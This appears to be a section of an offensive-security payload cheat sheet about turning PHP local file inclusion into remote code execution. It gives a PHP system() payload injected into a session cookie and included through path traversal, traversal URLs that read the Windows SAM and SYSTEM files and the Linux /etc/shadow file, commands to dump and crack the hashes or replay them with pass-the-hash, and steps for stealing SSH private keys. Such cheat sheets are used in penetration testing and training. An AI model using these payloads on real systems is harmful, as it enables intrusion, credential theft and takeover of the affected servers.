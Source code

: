 ## LFI to RCE via PHP sessions

Check if the website use PHP Session (PHPSESSID)

```javascript
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into /var/lib/php5/sess_[PHPSESSID] or /var/lib/php/session/sess_[PHPSESSID] files

```javascript
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```powershell
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```powershell
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```

## LFI to RCE via credentials files

This method require high privileges inside the application in order to read the sensitive files.

### Windows version

First extract `sam` and `system` files.

```powershell
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

Then extract hashes from these files `samdump2 SYSTEM SAM > hashes.txt`, and crack them with `hashcat/john` or replay them using the Pass The Hash technique.

### Linux version

First extract `/etc/shadow` files.

```powershell
http://example.com/index.php?page=../../../../../../etc/shadow
```

Then crack the hashes inside in order to login via SSH on the machine.

Another way to gain SSH access to a Linux machine through LFI is by reading the private key file, id_rsa.
If SSH is active check which user is being used `/proc/self/status` and `/etc/passwd` and try to access `/<HOME>/.ssh/id_rsa`.
